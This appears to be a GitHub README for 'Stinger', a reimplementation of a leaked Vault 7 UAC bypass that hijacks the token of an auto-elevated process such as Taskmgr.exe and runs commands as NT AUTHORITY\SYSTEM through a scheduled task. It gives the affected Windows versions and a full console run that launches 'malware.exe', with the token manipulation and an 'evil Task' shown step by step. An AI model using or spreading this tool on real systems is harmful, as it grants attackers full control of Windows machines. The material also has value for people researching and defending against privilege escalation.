 ﻿# Stinger

CIA Vault7 leak describes Stinger[0] as a Privilege Escalation module in the "Fine Dining" toolset. Stinger
is a "UAC bypass that obtains the token from an auto-elevated process, modifies it, and reuses it to 
execute as administrator". This is an implementation of Stinger, including debugging routines and additional 
tradecraft for `NT AUTHORITY\SYSTEM` rights. The exploit works on Windows 7 through Windows 10 to run privileged 
code through token hijacking of an autoelevated process (e.g. `Taskmgr.exe`) from a UAC restricted process. This 
technique to steal a privileged token and elevate a thread also works on Windows 11, however it is not possible 
to use it for CreateProcessWithLogonW which detects `BAD IMPERSONATION` or with CreateFile, Registry, Process, 
COM ITask*, Named Pipes etc as the operations fail with `ACESS_DENIED` or `E_BAD_IMPERSONATION`. This exploit 
closely resembles UAC Magic[1] and thus it is believed that Stinger is an implementation of UAC Magic based on 
the description and time which it was used within the CIA for modular malware in "Fine Dining". This is a 
tokenhijacking attack that bypasses UAC on Windows 7 -> Windows 10, and on Windows 11 gives only an elevated 
thread to further experiment with. This exploit leverages a COM object ITaskService from the privileged thread 
to run commands under `NT AUTHORITY\SYSTEM`. 

Here is an example of the UAC bypass being used on a vulnerable Windows 7 host. 

``` 
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\TestUser\Downloads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\TestUser\Downloads>Stinger.exe taskmgr.exe cmd.exe /c c:\\Temp\\malware.exe
Show our process security context...
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: TESTPC\TestUser
SID: S-1-5-21-3089230831-4110903467-601958294-1001
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is not elevated.
Token is not restricted
Dumping token privileges...
[-] Disabled Privilege: SeShutdownPrivilege Attributes : 0
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[-] Disabled Privilege: SeUndockPrivilege Attributes : 0
[-] Disabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 0
[-] Disabled Privilege: SeTimeZonePrivilege Attributes : 0
Process ID: 3992
Successfully duplicated token
H4x0r1nG the token ...
Enabling privilege: SeIncreaseQuotaPrivilege
Enabling privilege: SeSecurityPrivilege
Enabling privilege: SeTakeOwnershipPrivilege
Enabling privilege: SeLoadDriverPrivilege
Enabling privilege: SeSystemProfilePrivilege
Enabling privilege: SeSystemtimePrivilege
Enabling privilege: SeProfileSingleProcessPrivilege
Enabling privilege: SeIncreaseBasePriorityPrivilege
Enabling privilege: SeCreatePagefilePrivilege
Enabling privilege: SeBackupPrivilege
Enabling privilege: SeRestorePrivilege
Enabling privilege: SeShutdownPrivilege
Enabling privilege: SeDebugPrivilege
Enabling privilege: SeSystemEnvironmentPrivilege
Enabling privilege: SeChangeNotifyPrivilege
Enabling privilege: SeRemoteShutdownPrivilege
Enabling privilege: SeUndockPrivilege
Enabling privilege: SeManageVolumePrivilege
Enabling privilege: SeImpersonatePrivilege
Enabling privilege: SeCreateGlobalPrivilege
Enabling privilege: SeIncreaseWorkingSetPrivilege
Enabling privilege: SeTimeZonePrivilege
Enabling privilege: SeCreateSymbolicLinkPrivilege
Dropping IL...
Initialized medium IL SID
Token lowered to medium integrity
COM init...
Attemping to bypass UAC with the token...
ImpersonateLoggedOnUser succeeded..
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: BUILTIN\Administrators
SID: S-1-5-32-544
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is elevated!
Token is not restricted
Dumping token privileges...
[+] Enabled Privilege: SeIncreaseQuotaPrivilege Attributes : 2
[+] Enabled Privilege: SeSecurityPrivilege Attributes : 2
[-] Disabled Privilege: SeTakeOwnershipPrivilege Attributes : 0
[-] Disabled Privilege: SeLoadDriverPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemProfilePrivilege Attributes : 2
[+] Enabled Privilege: SeSystemtimePrivilege Attributes : 2
[+] Enabled Privilege: SeProfileSingleProcessPrivilege Attributes : 2
[+] Enabled Privilege: SeIncreaseBasePriorityPrivilege Attributes : 2
[+] Enabled Privilege: SeCreatePagefilePrivilege Attributes : 2
[-] Disabled Privilege: SeBackupPrivilege Attributes : 0
[-] Disabled Privilege: SeRestorePrivilege Attributes : 0
[+] Enabled Privilege: SeShutdownPrivilege Attributes : 2
[-] Disabled Privilege: SeDebugPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemEnvironmentPrivilege Attributes : 2
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeRemoteShutdownPrivilege Attributes : 2
[+] Enabled Privilege: SeUndockPrivilege Attributes : 2
[+] Enabled Privilege: SeManageVolumePrivilege Attributes : 2
[-] Disabled Privilege: SeImpersonatePrivilege Attributes : 0
[+] Enabled Privilege: SeCreateGlobalPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 2
[+] Enabled Privilege: SeTimeZonePrivilege Attributes : 2
[+] Enabled Privilege: SeCreateSymbolicLinkPrivilege Attributes : 2
Attemping to run command as NT AUTHORITY\SYSTEM via COM...
Created ITaskService..
Connected to ITaskService..
Registering the evil Task..
Task created successfully.
Executed command as NT AUTHORITY\SYSTEM... wait for cleanup
Task deleted successfully. 
```

Your commands have executed under `NT AUTHORITY\SYSTEM`. Happy New Year!

## References

* [0]: [Fine Dining Tool Module List, Vault 7, Wikileaks](https://wikileaks.org/ciav7p1/cms/page_20251107.html).
* [1]: [Reading your way around UAC, James Forshaw](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html).

## License

These files are available under a Attribution-NonCommercial-NoDerivatives 4.0 International license.
